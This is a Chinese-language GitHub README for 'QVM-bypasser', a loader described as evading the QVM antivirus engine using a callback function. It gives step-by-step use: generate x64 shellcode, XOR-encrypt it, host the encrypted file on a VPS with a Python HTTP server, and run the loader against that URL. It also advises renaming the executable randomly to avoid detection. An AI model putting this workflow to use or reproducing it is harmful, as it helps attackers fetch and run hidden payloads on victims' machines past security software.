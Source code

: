# QVM-bypasser

使用简单的回调函数bypassQVM引擎查杀



## 使用方法

1、生成x64位的shellcode

![image-20231202143904504](https://github.com/achuang-x/QVM-bypasser/blob/master/images/1.png)


2、使用xor.exe进行异或

```
Usage: xor.exe <input_filename> <output_filename> <key>
```



![image-20231202144301920](https://github.com/achuang-x/QVM-bypasser/blob/master/images/2.png)

3、将生成的 enc.bin 文件上传到 VPS ，开启 HTTP 服务

```
python -m http.server 80
```

![image-20231202144526524](https://github.com/achuang-x/QVM-bypasser/blob/master/images/3.png)

4、执行加载

使用之前最好将文件名改一下，改成随机的

```
Usage: QVM-bypasser.exe <url> <xor_key>
```

![image-20231202144716758](https://github.com/achuang-x/QVM-bypasser/blob/master/images/4.png)

![image-20231202144833469](https://github.com/achuang-x/QVM-bypasser/blob/master/images/5.png)



## 截图

![image-20231202150806484](./images/6.png)
![image-20231202150806484](./images/7.png)
